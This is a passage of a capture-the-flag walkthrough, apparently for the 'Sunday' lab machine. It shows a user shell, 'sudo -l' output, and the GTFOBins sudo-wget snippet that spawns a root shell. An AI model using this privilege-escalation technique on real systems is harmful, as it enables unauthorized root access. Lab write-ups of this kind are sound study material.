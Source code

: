 ```
**Note:** I use Hashcat on my Host Windows machine becuase hashcat uses the GPU unlike in virtual machines where he uses the CPU. it works much faster.

```
sammy@sunday:/home/sammy$ whoami
sammy
sammy@sunday:/home/sammy$ id
uid=100(sammy) gid=10(staff)
```

# Shell as root:

First thing I did was ```sudo -l``` and that was the output:
```
User sammy may run the following commands on sunday:
    (ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

I used [GTFOBins](https://gtfobins.github.io/) to privilege Escalation </br>
**GTFOBins** is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems. </br>
![wget_as_sudo](images/sunday/wget_as_sudo.png)

```
Sudo
If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
sudo wget --use-askpass=$TF 0
```

**It worked:** </br>
![root_shell](images/sunday/root_shell.png)